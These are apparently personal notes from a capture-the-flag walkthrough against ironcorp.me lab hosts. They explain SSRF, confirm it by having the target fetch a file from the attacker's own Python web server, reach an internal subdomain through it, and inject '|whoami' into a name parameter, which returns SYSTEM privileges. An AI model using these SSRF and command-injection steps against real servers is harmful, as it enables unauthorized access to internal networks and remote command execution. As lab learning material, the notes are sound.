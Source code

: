 **Server-Side Request Forgery (SSRF)** is a type of web security vulnerability that allows an attacker to make requests from the server-side application to an arbitrary destination. SSRF vulnerabilities occur when a server-side application processes user-supplied URLs or URIs in an insecure way, allowing attackers to abuse the functionality to:

1. Access internal resources (like private networks, services, and databases).
2. Enumerate internal network structures and services.
3. Bypass firewall rules.
4. Retrieve sensitive information, such as metadata from cloud instances.
5. Potentially gain remote code execution if combined with other vulnerabilities.


## Check out

- View the page source.
- Look for the following code:

	![[SSRF Vulnerability-20240829132452480.webp]]
	You can see the name of the field is "r".
- Create a text file on your attacking machine with any content. (i.e. hello.txt)
- Fire up a python server on the directory you created the file.
	`python3 -m http.server`
- Browse to http://admin.ironcorp.me:11025/?r=http://10.8.40.30:8000/hello.txt.
	![[SSRF Vulnerability-20240829133401094.webp]]

You can see the file's content on the page, so it's vulnerable to SSRF.

## Access the internal subdomain

Use it to perform an internal port scan and discover new services that are only available internally. This would help an attacker discover internally exposed services, evading their firewall (in the case of having one, of course).

- Browse http://admin.ironcorp.me:11025/?r=http://internal.ironcorp.me:11025.

	![[SSRF Vulnerability-20240829134027720.webp]]

- Examine the page source.
	![[SSRF Vulnerability-20240829134333513.webp]]
	`http://internal.ironcorp.me:11025/name.php?name=`
	The name variable prints out an user’s name.


## Command injection

Command injection vulnerabilities occur when an application passes unsafe user-supplied data (input) to a system shell or command interpreter without proper sanitization or validation. An attacker can exploit this vulnerability by injecting arbitrary commands into the executed commands to gain unauthorized access, execute arbitrary code, or compromise the entire system.

### Burp Suite

- Intercept the following URL with Proxy.
	http://admin.ironcorp.me:11025?r=http://internal.ironcorp.me:11025/name.php?name=peter

- Send the request to Repeater and add `|whoami`.
	![[SSRF Vulnerability-20240830135736534.webp]]
You can see the "whoami" command injection works and the user has superuser permissions. 
"**nt authorty\\system**"

**Next step:** [[Reverse shell]]
